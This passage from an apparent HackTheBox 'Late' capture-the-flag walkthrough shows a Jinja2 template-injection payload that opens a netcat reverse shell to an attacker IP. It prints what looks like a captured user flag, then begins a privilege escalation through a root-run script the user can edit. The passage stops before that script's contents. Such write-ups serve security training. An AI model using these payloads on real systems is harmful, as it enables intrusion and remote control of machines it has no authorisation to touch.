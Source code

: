 <p align="center">
  <img src="/images/walkthroughs/hackthebox/late/4_3_wget2.png" width="90%"/>
</p>

And the final payload to get the reverse shell:

```python
{ { cycler.__init__.__globals__.os.popen(" rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.192 4444 >/tmp/f ").read() } }
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/4_4_rev.png" width="90%"/>
</p>

And it worked:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/5_0_user.png" width="70%"/>
</p>

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/5_1_user.png" width="70%"/>
</p>

``` 2870e52b45c1cb066bda6a1828c5ebee ```


## Privesc

With pspy64 we could see that the user root is executing the following script:

```
CMD: UID=0    PID=2227   | /bin/bash /usr/local/sbin/ssh-alert.sh
CMD: UID=0    PID=2323   | chattr +a /usr/local/sbin/ssh-alert.sh 
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/late/6_0_pspy64.png" width="70%"/>
</p>

That script is owned by us, therefore, an edit with a rev shell at the end should do the job:

/usr/local/sbin/ssh-alert.sh:
```